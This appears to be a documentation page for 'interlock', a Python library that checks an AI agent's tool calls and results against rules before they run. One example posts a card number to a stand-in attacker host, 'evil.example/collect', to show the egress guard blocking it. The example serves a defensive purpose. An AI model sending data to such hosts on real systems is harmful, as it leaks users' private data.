


# How interlock works

This page explains the handful of ideas everything else builds on. Read it once
and the guides will make sense. It covers what happens on every call, how rules
combine, the two directions a check can face, and what happens when something
goes wrong.

## The short version

Every time your agent does something you've guarded, interlock:

1. turns the call into an **event**: the tool name, its arguments, who's acting;
2. hands the event to your **rules**, in order;
3. combines their **verdicts** (any block wins; rewrites stack) and enforces
   the outcome **before** the tool runs;
4. after the tool runs, does the same for the **result** before your agent sees
   it.



All of this happens inside your agent's own Python process. There's no proxy,
no server, and no network hop.

## Why inside the process

There are three places you could put a guard on an agent:

| Where | Sees | Misses |
|---|---|---|
| **Prompt filter** (before the model) | what the model is told | what the model decides to *do* |
| **Network proxy** (between agent and APIs) | outbound HTTP, often encrypted | file writes, shell commands, local tools, the real arguments |
| **In-process** (interlock) | every guarded call with its real arguments, right before it runs | code that runs outside the guarded functions, such as a subprocess |

The in-process position is the last moment you can still say no, and the only
one with the exact arguments in hand. For the part it can't see (a subprocess the
agent launches), interlock has a sandbox, [BRACE](guides/sandbox.md), driven by
the same policy.

## Events

A `SensorEvent` is one action as interlock sees it:

| Field | What it holds |
|---|---|
| `action` | the tool, function, or MCP tool name, e.g. `"send_email"` |
| `args` | the arguments as a dict, by parameter name, defaults included |
| `principal` | who is acting, e.g. `"acme/agent42"`, if you set one |
| `parent_principal` | who delegated the work, for sub-agents |
| `span_id` | which agent run this belongs to |
| `ts` | when it was captured (seconds since the epoch) |
| `phase` | `"call"` before the tool runs, `"result"` after |

On a **result** event, `args` carries what the tool returned instead: a dict
result as itself, anything else under the key `"result"`. So a tool that returns
a string produces `args == {"result": "the string"}`.

## Rules

A rule is any function that takes an event and returns a decision, or `None` if
it has no opinion:

```python
from interlock import Decision

def no_prod_writes(event):
    if event.action == "write_file" and str(event.args.get("path", "")).startswith("/srv/prod"):
        return Decision.block("prod is read-only", policy_id="fs.prod.v1", attributed_to="path")
    return None
```

`None` and `Decision.allow()` both mean "fine by me", and evaluation moves on to
the next rule. If no rule objects, the call is allowed.

## Verdicts

A decision carries one of four verdicts:

| Verdict | Build it with | On a call | On a result |
|---|---|---|---|
| **allow** | `Decision.allow()` or return `None` | the tool runs as asked | the agent gets the result |
| **block** | `Decision.block(reason, policy_id, attributed_to)` | `Blocked` is raised, the tool never runs | `Blocked` is raised, the agent never sees the result |
| **rewrite** | `Decision.modify(new_args, ...)` on calls, `Decision.modify_result(new_result, ...)` on results | the tool runs with the new argument values | the agent gets the replacement |
| **ask** | `Decision.escalate(reason, policy_id, attributed_to)` | the tool runs only if the installed approver approves this exact call; otherwise `NotApproved` (a `Blocked`) is raised | the result is delivered only if approved |

Rewrites matter because blocking isn't always the right answer. Masking a card
number and sending the email is often better than refusing to send it.

Every decision can also carry:

- `reason`: a human-readable explanation, shown in `Blocked` messages and logs;
- `policy_id`: which policy fired, for logs and audits;
- `attributed_to`: the **name** of the argument that triggered it (`"path"`),
  never its value, so a decision can be explained without copying sensitive data
  into a log.

## How rules combine

Every rule gets a say, in the order you installed them:

- **A block wins.** As soon as any rule blocks, evaluation stops and the call is
  refused. A rewrite earlier in the list can't save it.
- **Rewrites stack.** When a rule rewrites the call, the rest of the rules judge
  the *rewritten* call. Several rewrites combine, and if two change the same
  argument, the later one wins.
- **An ask waits for no-block.** An escalation doesn't stop evaluation: a later
  block still wins, so a human is only asked about a call no rule refuses. An
  approved call runs with any rewrites applied. See [approvals](guides/approvals.md).
- **No objection means allow.**

So a redaction rule and an egress allowlist work together in either order. The
card number is masked on the way to a trusted host, and the call to an untrusted
host is blocked:

```python
import interlock
from interlock import Blocked, enforce_tool_call
from interlock.detectors import network_egress_guard, pii_redaction_guard

interlock.install(rules=[pii_redaction_guard(), network_egress_guard(allowed_hosts=["api.internal"])])

enforce_tool_call("http_post", {"url": "https://api.internal/notes", "body": "card 4111 1111 1111 1111"})
# -> {'url': 'https://api.internal/notes', 'body': 'card [REDACTED CREDIT_CARD]'}

enforce_tool_call("http_post", {"url": "https://evil.example/collect", "body": "card 4111 1111 1111 1111"})
# -> raises Blocked: egress to 'evil.example' is not on the destination allowlist
```

Because later rules see earlier rewrites, order still decides *what they see*:
put a rule that caps `limit` before a rule that checks `limit`, and the second
rule judges the capped value.

When several rules rewrite one call, the decision you get back carries all of
their changes, their reasons joined with `"; "`, and the first rewrite's
`policy_id` and `attributed_to`. A single rewrite comes back exactly as its rule
returned it.

## Two directions: calls and results

Rules face one direction or the other:

- An ordinary rule is a **call** rule. It only sees `phase="call"` events.
- To check results, mark the rule: `my_rule.phase = "result"`. It then only sees
  `phase="result"` events.

The engine keeps the two apart, so a rule written for arguments never misfires on
a result that happens to share the tool's name, and the other way round. A
result-phase rewrite uses `Decision.modify_result(...)` and replaces the whole
return value.

Two things to remember about results:

- **Blocking a result doesn't undo the tool.** By the time a result exists, the
  tool has run and its side effects stand. Blocking only keeps the output from
  your agent.
- **Most detectors check calls.** Of the 107 built-in detectors, only
  `tool_result_injection_guard` and `tool_output_secret_redactor` are result rules. To scan results for anything
  else, write a result rule. [Writing rules](guides/writing-rules.md#check-results)
  shows how.

## Enforcement modes

Every entry point takes `enforcement=`:

- `"blocking"` (the default) enforces verdicts.
- `"monitor"` evaluates the rules and records what *would* have happened, but
  never blocks or rewrites. `@monitor()` is shorthand for
  `@guard(enforcement="monitor")`.

Use monitor mode to try new rules on real traffic before you enforce them.

## One check, many entry points

Every integration funnels into the same two functions:



So a rule you write once behaves the same whether the agent calls a decorated
function, an MCP server, a LangChain tool, or a Node.js tool. If your framework isn't covered,
call `enforce_tool_call` and `enforce_tool_result` yourself (see
[integrations](guides/integrations.md)).

## Who is acting: spans and principals

Wrap an agent run in `span()` and every decision inside it is tied to that run:

```python
from interlock import span

with span(principal="acme/agent42"):
    ...   # every guarded call here has principal="acme/agent42" and the same span_id
```

The span id and principal live in `contextvars`, so they follow `await` and stay
separate between concurrent tasks. The principal is how [scopes](guides/scopes.md)
pick per-tenant rules, and how the [audit log](guides/audit-log.md) says who did
what. When one agent delegates to another, `parent_principal` records the
delegator.

## When something goes wrong

interlock leans towards refusing. Here's what happens in each failure case:

| Situation | What happens |
|---|---|
| No rules installed | **Every call is allowed.** The default engine is empty. |
| A `ScopedEngine` gets a call with no principal and no `default_scope` | The call is blocked (`scoped_engine.unscoped`), unless you passed `allow_unscoped=True`. |
| A `deny_when` test raises | The call is blocked with a "rule error, denied fail-closed" reason. |
| A hand-written rule raises | The tool doesn't run, and the rule's own exception (say, `KeyError`) reaches the caller. It is **not** converted to `Blocked`. |
| A detector gets odd input (non-dict args, `None`) | It has no opinion. Detectors are written never to raise. |
| A scope's rules can't be resolved during a call (an over-grant, an unknown template) | The call is blocked with policy id `scoped_engine.resolution` and a reason naming the problem. |
| A Node.js client can't reach the sidecar | Every guarded call is denied, even in monitor mode. |
| A sandbox backend can't enforce something you `require=` | `run()` raises `IsolationUnavailable` before starting the process. |

The second and third rows are why `deny_when` is a good wrapper for any test that
might crash: the outcome is a clean `Blocked` you already handle.

## Where to go next

- [Writing rules](guides/writing-rules.md): from one-liners to tested,
  result-checking rules.
- [Security model](security-model.md): what interlock protects against, and
  what it doesn't.
- [Python API reference](reference/python-api.md): every symbol and parameter.
